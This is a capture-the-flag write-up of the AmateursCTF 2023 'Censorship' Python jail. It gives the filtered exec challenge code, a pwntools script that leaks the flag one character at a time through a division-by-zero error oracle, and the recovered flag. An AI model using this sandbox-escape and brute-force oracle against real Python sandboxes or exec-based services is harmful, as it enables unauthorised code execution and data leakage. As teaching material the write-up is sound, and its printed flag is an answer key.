 # Misc - Censorship (AmateursCTF 2023)

## Problem

We are faced with a Python jail problem:

```python
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            print(code)
            if "flag" in code or "e" in code or "t" in code or "\\" in code:
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)

```

## Solution

Since `flag` can be accessed via `_`, we simply need avoid using `e,t,\` characters. We note that if an exception was triggered, An error message will be printed. We can take advantage of this by considering the division-by-zero exception and perform `1/(ord(guess_char)-ord(_[flag_char_pos]))` to bruteforce the flag character by character:



```python
from pwn import *

r = remote('amt.rs', 31670)
print(r.recv(256))
flag = ''
print(len(flag))
flaglen = 44
# Length of flag is 44 (can try "_[??]" until string index out of range boundary found)
# Re-run a few times due to timeout, store partial result in "flag"
for j in range(len(flag), flaglen + 1):
    for i in range(0x100):
        r.sendline(f"1/({i}-ord(_[{j}]))".encode('utf-8'))
        res = r.recv(256).decode('utf-8')
        if 'division by zero' in res:
            flag += str(chr(i))
            print(flag)
            break

```

## Flag
amateursCTF{i_l0v3_overwr1t1nG_functions..:D}